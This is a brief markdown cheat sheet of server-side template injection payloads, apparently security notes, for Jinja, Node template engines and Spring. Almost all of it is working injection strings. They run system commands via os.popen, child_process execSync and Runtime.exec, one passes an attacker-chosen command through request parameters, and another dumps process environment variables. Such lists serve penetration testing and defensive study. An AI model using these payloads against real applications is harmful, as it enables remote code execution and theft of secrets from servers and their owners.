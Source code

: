## Jinja

- Method 1
```
{{"_".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}
```
- Method 2 (using other parameters)
```
{% if session.update({request.args.key:self._TemplateReference__context.cycler.__init__.__globals__.os.popen(request.args.command).read()}) == 1 %}{% endif %}&command=id&key=payload
```

## Node

- Method 1
```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}
#{7*7}
#{JSON.stringify(this.constructor.constructor('return process.env')())}
```

## Java

- Spring framework
    - `*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}`
